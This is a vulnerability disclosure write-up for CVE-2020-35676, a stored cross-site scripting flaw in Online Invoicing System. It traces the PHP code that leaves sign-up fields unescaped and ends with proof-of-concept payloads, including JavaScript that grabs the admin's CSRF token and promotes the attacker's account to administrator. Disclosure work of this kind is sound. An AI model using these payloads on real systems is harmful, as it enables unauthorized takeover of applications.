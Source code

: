 ```yaml
---
layout: post
title: CVE-2020-35676
tags: [CVE-Writeup, XSS]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.1
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Stored XSS
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System fails to correctly sanitize user input when a user registers using the self-registration functionality. As such, an attacker can input a specially crafted payload that will execute upon the application's administrator browsing the registered user's list. Once the arbitrary Javascript is executed in the context of the admin, this will cause the attacker to gain administrative privileges therefore effectively leading into an application takeover.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

In order to allow user's to self-register, the following pre-requisites need to be met:

1. Sign up has to be enabled in `admin/pageSettings.php` (enabled by default during a fresh install.) 
2. Custom group has to be created which would contain the self-signed up users. 

Upon these two pre-reqs being met, a user is able to self-register by browsing to `http://localhost/membership_signup.php`.

When registering, a user sees the following fields:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fields.png)

The majority fields are optional apart from:

~~~
Username
Password
Confirm Password
Email
Group
~~~

Let's take a peek in the code to see what happens to the values of these fields after this information is passed to the server.

`app/membership_signup.php`:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fieldsbackend.png)

As shown on Lines 3-11 above, multiple variables are initialized with the values of the user-input after being passed into various functions. Then on Lines 14-32, the data is validated to ensure the username does not exist, the passwords match, etc. Finally on Line 37, a SQL query is crafted using the user input and executed thus storing the registered user's information in the database.

However Lines 8-11, look very interesting:

~~~
$custom1 = makeSafe($_POST['custom1']);
$custom2 = makeSafe($_POST['custom2']);
$custom3 = makeSafe($_POST['custom3']);
$custom4 = makeSafe($_POST['custom4']);
~~~

The lines above take the values that are passed into each respective parameter that starts with the name "custom". Looking at the HTML of the sign-up form, we can confirm these correspond with the optional fields: 

~~~
Full Name
Address
City 
State
~~~


What's most interesting here is that before these values are initialized with their respective variable, the values are first passed into the `makeSafe()` function. The `makeSafe()` function is dissected in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, the `makeSafe()` function is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

So while the `makeSafe()` function may help prevent SQL Injection attacks, it has no role in sanitizing HTML. As no HTML characters are being sanitized, the database is directly storing the HTML payloads unharmed. 

While this is a red flag, it is not appropriate to jump to conclusions as there could be additional functionality which sanitizes the value stored in the database before reflecting it onto the page.

To confirm this, we can take a look at the code which is responsible for displaying these values to the administrator.

**admin/pageViewMembers.php**:
![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/reflectme.png)

As shown on Line 1, a SQL query is executed to retrieve the values of the following columns:

~~~
m.memberID - Column 0
g.name - Column 1
m.signupDate - Column 2
m.custom1 - Column 3
m.custom2 - Column 4
m.custom3 - Column 5
m.custom4 - Column 6
...
~~~

On Line 2, a while loop is used to iterate over the values of each column. The index here corresponds with the index of the columns being listed above such as `$row[0]` being the memberID (m.memberID), `$row[1]` being the group name (g.name) and so on.

With this in mind, this means that the values of the custom fields will be stored in:

~~~
$row[3] // Full Name
$row[4] // Address
$row[5] // City
$row[6] // State
~~~

Finally each of these values are passed into the `thisOr()` function in which the returned value is directly reflected on to the page:

~~~php
<td class="text-left"><?php echo thisOr($row[1]); ?></td>
<td class="text-left"><?php echo thisOr($row[2]); ?></td>
<td class="text-left"><?php echo thisOr($row[3]); ?></td>
<td class="text-left"><?php echo thisOr($row[4]); ?></td>
<td class="text-left"><?php echo thisOr($row[5]); ?></td>
<td class="text-left"><?php echo thisOr($row[6]); ?></td>
<td class="text-left">
    <?php echo (($row[7] && $row[8]) ? $Translation['Banned'] : ($row[8] ? $Translation['active'] : $Translation['waiting approval'] )); ?>
</td>
~~~

Let's take a quick peek into the `thisOr()` function as it is the last step between successful exploitation as it may be the function which could be responsible for sanitizing the items.

**admin/incFunctions.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/thisor.png)

As shown above, the `thisOr()` function performs a simple ternary operation which checks if the value of the parameter passed to it is empty. If the value is not empty, it is returned as is. However if the value is empty, a non-breaking space HTML entity is returned.

Since `thisOr()` was the final thing standing between succesful exploitation and not, we can now confirm that the application is indeed vulnerable to Stored Cross-Site Scripting as the application fails to sanitize the user-input for any HTML special characters which can lead to exploitation.

With this in mind, an attacker is able to use Javascript to craft a payload which would grant their account the highest privileges offered by the application. After sending the payload when creating a new user, an attacker will need to wait until the application's administrator browses to the user list which would therefore execute the payload. As the payload is executed in the context of the application, the Same Origin Policy is therefore bypassed and an attacker is able to effectively takeover the application.

# Proof of Concept

Basic:

```
Full Name - <img src=/ onerror=alert(1)>
Address - <img src=/ onerror=alert(2)>
City - <img src=/ onerror=alert(3)>
State - <img src=/ onerror=alert(4)>
```

Bypass SOP and grant yourself admin rights:

```javascript
// add-admin.js
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php?saved=1&memberID=attacker";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=attacker&memberID=attacker&password=&confirmPassword=&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=testing&custom2=123+Fake+St&custom3=London&custom4=New+York&comments=Test&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
```

**Replace**:
The values of `oldMemberID` and `memberID` with your respective username.

